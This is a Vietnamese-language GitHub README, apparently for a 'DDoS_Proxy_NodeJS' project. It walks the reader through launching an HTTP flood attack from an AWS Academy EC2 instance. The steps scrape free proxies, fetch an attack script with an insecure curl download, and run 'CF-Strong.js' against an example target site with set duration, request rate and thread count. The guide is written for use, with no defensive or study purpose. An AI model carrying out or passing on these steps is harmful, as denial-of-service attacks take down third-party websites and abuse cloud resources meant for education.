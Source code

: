 # DDoS_Proxy_NodeJS
https://awsacademy.instructure.com/courses/74031/modules/items/6643523

website lấy proxy http(tạo một tệp txt rồi copy hết tất cả trong trang web này)
https://api.proxyscrape.com/v2/?request=displayproxies&protocol=http&timeout=10000&country=all&ssl=all&anonymity=all

https://upload-vpn.vinahost.vn/ (website upload file len terminal remote tren website)
kéo thả file proxy và script chạy(đã gửi) lên trang web

Linux
-----------------------------------------------------------------
qua terminal bên ec2
copy lệnh dưới và dán vào:
sudo apt update -y
curl -fsSL https://deb.nodesource.com/setup_18.x | sudo -E bash -
sudo apt-get install nodejs -y

tiếp theo qua website upload copy link file mà bạn đã upload
lệnh upload trên terminal: curl -O link --insecure
vd: curl -O https://example.com/file.js --insecure

-----------------------------------------------------------------

sau khi upload đủ cả 2 file dùng: ls để kiểm tra xem đã có 2 file vừa upload chưa
dùng tiếp lệnh npm i colors
-> để cài đặt module cho script đuôi .js

lệnh chạy script
node file.js link thời_gian requests/proxy threads(luồng) proxy_file
vd: node CF-Strong.js http://www.thayphet.net/ 300 64 12 Proxy.txt

cách kiểm tra số luồng hiện có trên terminal: lscpu
kiếm dòng: Thread(s) per core:

